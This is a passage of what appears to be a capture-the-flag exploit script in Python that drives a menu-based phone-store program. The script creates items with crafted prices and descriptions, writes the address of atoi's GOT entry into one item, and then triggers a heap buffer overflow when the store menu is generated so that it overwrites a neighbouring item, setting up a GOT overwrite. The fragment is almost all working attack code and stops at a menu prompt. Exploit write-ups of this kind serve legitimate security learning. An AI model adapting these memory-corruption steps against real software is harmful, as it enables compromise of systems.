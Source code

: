 ```python
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    sendln("S"*63)  # store name; maximum allowed, need it to overflow a buffer later!
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
    readtil('choice?')
    sendln('c')
    
    # second item
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln(''+'9'*0xf)  # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    sendln('A'+p(0x804b038-1)+'A'*(0x4f-5)) # 0x804b038 = atoi@got 
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')     # sell a phone
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe)
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*(0x4f-4)+p(0x8049b64))

    readtil('choice?')
    sendln('c') # generate store menu & overflow into 2nd item
    
    readtil('choice?')
```